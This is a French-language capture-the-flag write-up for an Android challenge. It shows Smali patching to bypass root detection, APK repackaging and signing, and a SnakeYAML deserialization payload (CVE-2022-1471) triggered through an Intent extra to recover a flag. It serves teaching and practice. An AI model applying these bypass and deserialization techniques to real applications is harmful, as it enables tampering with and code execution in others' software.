






# Writeup — CTF Snake (pwnsec)

> Exploitation d'une APK Android vulnérable combinant **bypass de détection root** + **désérialisation YAML non sécurisée (CVE-2022-1471 / SnakeYAML)** pour récupérer un flag chargé via JNI.

**Flag final** : `PWNSEC{W3'r3_N0t_T0015_0f_The_g0v3rnm3n7_0R_4ny0n3_3ls3}`

---

## Vecteur de vulnérabilité

L'application contient trois faiblesses combinables :

1. Une détection root basique (binaires SU, apps de management, shell, FS writable) implémentée côté Java — donc patchable au niveau Smali.
2. Une condition cachée dans `MainActivity.C()` qui lit `/sdcard/snake/Skull_Face.yml` si l'`Intent` contient `extra "SNAKE" = "BigBoss"`.
3. Le parser YAML utilisé (`SnakeYAML < 2.0`) instancie n'importe quelle classe Java taggée — permettant d'invoquer le constructeur de `BigBoss` qui appelle une fonction native révélant le flag.

---

## Étape 1 — Décompilation de l'APK avec apktool

```bash
java -jar C:\Users\PC\Downloads\apktool_3.0.1.jar d C:\Users\PC\Downloads\snake.apk -o snake
```

Apktool décode les ressources, baksmali les classes, copie les libs natives (`libsnake.so`) et l'`AndroidManifest.xml`.



---

## Étape 2 — Identification des checks et patch Smali

Dans `snake/smali/com/pwnsec/snake/MainActivity.smali`, on identifie la méthode pivot :

```smali
.method public static isDeviceRooted(Landroid/content/Context;)Z
```

Elle combine quatre sous-checks (`checkForDangerousBinaries`, `checkForRootManagementApps`, `checkForWritableSystem`, `checkForRootShell`). Si elle retourne `true`, `onCreate` appelle `System.exit(0)`.

**Patch retenu** : remplacement complet du corps de `isDeviceRooted` pour qu'elle retourne directement `false` (`0x0`). Une seule modification neutralise les quatre vérifications d'un coup.

```smali
.method public static isDeviceRooted(Landroid/content/Context;)Z
    .locals 1

    const/4 v0, 0x0

    return v0
.end method
```



---

## Étape 3 — Recompilation, alignement et signature

```bash
# Recompilation
java -jar apktool_3.0.1.jar b snake -o C:\apktool\snake_patche.apk

# Alignement (requis par apksigner ≥ v30)
zipalign -p -f 4 C:\apktool\snake_patche.apk C:\apktool\snake-aligned.apk

# Signature
apksigner sign --ks C:\apktool\my-key.keystore \
               --ks-pass pass:android --key-pass pass:android \
               --ks-key-alias mykey \
               --out C:\apktool\snake-signed.apk \
               C:\apktool\snake-aligned.apk

# Vérification
apksigner verify -v C:\apktool\snake-signed.apk
```

Le résultat confirme `Verifies` avec les schémas v2 et v3.



---

## Étape 4 — Installation de l'APK patchée

```bash
adb uninstall com.pwnsec.snake
adb install C:\Users\PC\apktool\snake-signed.apk
```



---

## Étape 5 — Premier lancement (validation du bypass root)

```bash
adb shell am start -n com.pwnsec.snake/.MainActivity
```

L'app démarre sans s'auto-kill : l'écran easter-egg de Big Boss (MGS V — *Here's to you Boss 1932–1995*) confirme que `isDeviceRooted` retourne bien `false` et que `onCreate` continue son flux.


---

## Étape 6 — Préparation du payload SnakeYAML

La méthode `C()` lit `/sdcard/snake/Skull_Face.yml` et le parse avec une instance de SnakeYAML 1.x non sécurisée. On crée un payload exploitant **CVE-2022-1471** :

```yaml
!!com.pwnsec.snake.BigBoss ["Snaaaaaaaaaaaaaake"]
```

- `!!com.pwnsec.snake.BigBoss` → tag global YAML qui force l'instanciation de la classe Java `BigBoss`.
- `["Snaaaaaaaaaaaaaake"]` → tableau passé au constructeur `BigBoss(String)`. Cette chaîne exacte est attendue par le check `equals("Snaaaaaaaaaaaaaake")` dans le constructeur, qui déclenche alors l'appel à la fonction native `stringFromJNI()` + `hexToAscii()` qui logge le flag.

Push du fichier sur l'appareil :

```bash
adb shell mkdir -p /sdcard/snake
adb push C:\apktool\Skull_Face.yml /sdcard/snake/Skull_Face.yml
adb shell cat /sdcard/snake/Skull_Face.yml
```



---

## Étape 7 — Trigger de l'exploit et récupération du flag

On force l'arrêt de l'app puis on la relance avec l'extra Intent requis (`--es` pour un String extra, **pas** `-e`) :

```bash
adb shell am force-stop com.pwnsec.snake
adb shell am start -n com.pwnsec.snake/.MainActivity --es SNAKE BigBoss
```

En parallèle, on monitore logcat avec un filtre élargi :

```bash
adb logcat *:E PWNSEC:V BigBoss:V "YML File":V
```

Le flag apparaît dans le tag `PWNSEC` :

```
D PWNSEC : PWNSEC{W3'r3_N0t_T0015_0f_The_g0v3rnm3n7_0R_4ny0n3_3ls3}
```



---

## Flag

```
PWNSEC{W3'r3_N0t_T0015_0f_The_g0v3rnm3n7_0R_4ny0n3_3ls3}
```

> *"We're not tools of the government or anyone else."* — The Boss, Metal Gear Solid 3: Snake Eater.

---

## Concepts mobilisés

| Domaine | Technique |
|---------|-----------|
| Reverse Android | Décompilation avec apktool, lecture Smali |
| Patching binaire | Modification de bytecode Dalvik (`const/4` + `return`) |
| Repackaging APK | zipalign + apksigner (schémas v2/v3) |
| Désérialisation | Exploitation CVE-2022-1471 (SnakeYAML < 2.0) |
| Android IPC | Intent extras (`--es`) pour atteindre du code conditionnel |
| Native code | Pont JNI Java → C pour génération du flag |

---
